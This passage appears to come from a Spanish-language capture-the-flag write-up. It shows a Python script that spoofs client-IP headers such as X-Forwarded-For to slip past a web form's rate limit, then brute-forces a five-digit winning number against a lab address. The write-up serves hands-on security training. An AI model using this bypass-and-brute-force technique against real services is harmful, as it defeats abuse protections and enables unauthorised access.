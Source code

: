 Para bypassear el `rate limit` podemos ayudarnos de [hacktrick](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

Ahora que sabemos como bypasser el `rate limit` vamos a hacer un script en python para automatizar la busqueda del numero ganador.

```python
import requests
from pwn import *
import sys
import signal

def crtl_C(signal,frame):
	print("[+] Exiting")
	sys.exit(0)

signal.signal(signal.SIGINT, crtl_C)

url = "http://10.10.194.73:8085/"

headers = {
	"X-Originating-IP": "127.0.0.1",
	"X-Forwarded-For": "127.0.0.1",
	"X-Remote-IP": "127.0.0.1",
	"X-Remote-Addr": "127.0.0.1",
	"X-Client-IP": "127.0.0.1",
	"X-Host": "127.0.0.1",
	"X-Forwared-Host": "127.0.0.1",
	"Host": "10.10.194.73:8085",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
	"Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
	"Accept-Encoding": "gzip, deflate, br",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "10",
	"Origin": "http://10.10.194.73:8085",
	"DNT": "1",
	"Sec-GPC": "1",
	"Connection": "close",
	"Referer": "http://10.10.194.73:8085/",
	"Upgrade-Insecure-Requests": "1",
}

p1=log.progress("Data")

for i in range(10000, 99999):
	data={"number":i}
	response = requests.post(url, headers=headers, data=data)
	p1.status("Probando el numero : %s" %(i))
	#print(response.text)
	if "Oh no! How unlucky. Spin the wheel and try again" in response.text:
		#print("texto encontrado")
		pass
	else:
		print("Numero encontrado")
		print(i) 
```
